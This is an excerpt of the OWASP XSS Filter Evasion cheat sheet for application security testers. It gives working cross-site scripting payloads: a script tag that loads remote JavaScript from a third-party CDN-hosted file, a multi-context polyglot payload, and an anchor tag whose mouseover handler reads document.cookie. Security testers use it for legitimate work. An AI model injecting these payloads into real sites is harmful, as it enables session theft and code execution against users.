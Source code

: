 ```yaml
---
sidebar_position: 5
---
```


# XSS Filter Evasion

## Introduction to XSS Filter Evasion

This article is a guide to Cross Site Scripting (XSS) testing for application security professionals. This cheat sheet was originally based on RSnake's seminal XSS Cheat Sheet previously at: `http://ha.ckers.org/xss.html`. Now, the OWASP Cheat Sheet Series provides users with an updated and maintained version of the document. The very first OWASP Cheat Sheet, [Cross Site Scripting Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's work and we thank RSnake for the inspiration!

## Tests

This cheat sheet demonstrates that input filtering is an incomplete defense for XSS by supplying testers with a series of XSS attacks that can bypass certain XSS defensive filters.

### Basic XSS Test Without Filter Evasion

This attack, which uses normal XSS JavaScript injection, serves as a baseline for the cheat sheet (the quotes are not required in any modern browser so they are omitted here):

```html
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>
```

### XSS Locator (Polyglot)

This test delivers a 'polyglot test XSS payload' that executes in multiple contexts, including HTML, script strings, JavaScript, and URLs:

```js
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

(Based on this [tweet](https://twitter.com/garethheyes/status/997466212190781445) by [Gareth Heyes](https://twitter.com/garethheyes)).

### Malformed A Tags

This test skips the `[href](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/a#href)` attribute to demonstrate an XSS attack using event handlers:

```js
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

